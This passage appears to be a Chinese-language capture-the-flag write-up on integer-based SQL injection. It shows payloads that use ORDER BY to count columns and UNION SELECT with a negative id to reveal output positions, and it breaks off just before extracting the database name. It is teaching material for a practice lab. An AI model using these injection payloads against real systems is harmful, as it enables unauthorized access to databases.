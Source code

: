 burpsuite抓包硬试

## sql注入

这类问题说白了就是没有设置好sql的空里写什么

### 整数型注入

如果在不知道题目的情况下可以先输入1试试

显示sql语句

```    select * from news where id = 1
    -- ID: 1
    -- Data: ctfhub
```
```    select * from news where id = 2
    -- ID: 2
    -- Data: skill
```
于是知道这道题是整数型注入

查询字段数

```    select * from news where id = 1 or 1 = 1 order by 2
```
其中

```    order by 1
    order by 2
    order by 3
    ...
```
表示按照第几个字段排序,所以可以用来检查字段数

order by 3 的时候不回显,所以有两个字段

然后用union select联合查询回显位置

```    select * from news where id = 1 union select 1,2
```
select 1,2 正常来说只会返回第一列是1,第二列是2,列数和数据库列数相同的表

返回

```    select * from news where id= 1 union select 1,2
    -- ID: 1
    -- Data: ctfhub
```
很明显,这个是因为ctfhub的id=1,所以改成不可能出现在数据库里的id,比如-1,来阻止表内数字出现

```    select * from news where id=-1 union select 1,2
    --ID: 1
    --Data: 2
```
we know there is only two item in one row, we get the name of the
database, usually we can get this by calling Database()

so
